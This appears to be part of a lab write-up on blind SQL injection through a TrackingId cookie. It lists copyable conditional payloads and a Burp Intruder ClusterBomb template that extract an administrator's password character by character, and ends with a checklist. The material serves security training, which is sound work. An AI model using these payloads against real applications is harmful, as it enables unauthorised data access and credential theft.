 
## Example full payloads (copyable)

- Confirm table exists:
```
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1) = 'a'--
```

- Confirm administrator exists:
```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator') = 'a'--
```

- Password length greater-than test:
```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password) > 3) = 'a'--
```

- Single-character test (position 1 equals 'a'):
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator') = 'a'--
```

- ClusterBomb template (two payload sets: POS and CHAR):
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,§POS§,1) FROM users WHERE username='administrator') = '§CHAR§'--
```

---

## Results
- You ran the ClusterBomb attack, filtered with Grep for **"Welcome back"**, arranged payloads and found the password characters one-by-one.
- **Extracted password:** `(replace_with_the_password_you_found)`  

> Replace the placeholder above with the actual password you retrieved during the attack.

---

## References / Further tips
- Consider switching to Burp Suite Professional for faster Intruder attacks and built-in payload generators.
- If the application blocks many requests, slow down the attack (use Intruder throttle) or parallelize carefully within lab constraints.

---

## Appendix — Quick checklist for your run
1. Place payload markers correctly in the `TrackingId` cookie.  
2. Use Repeater to confirm a single payload works before automating.  
3. Use Intruder ClusterBomb with payload sets `{positions}` and `{charset}`.  
4. Add `Welcome back` to **Grep - Match** to find true conditions.  
5. Verify each discovered character in Repeater.  
6. Assemble full password.

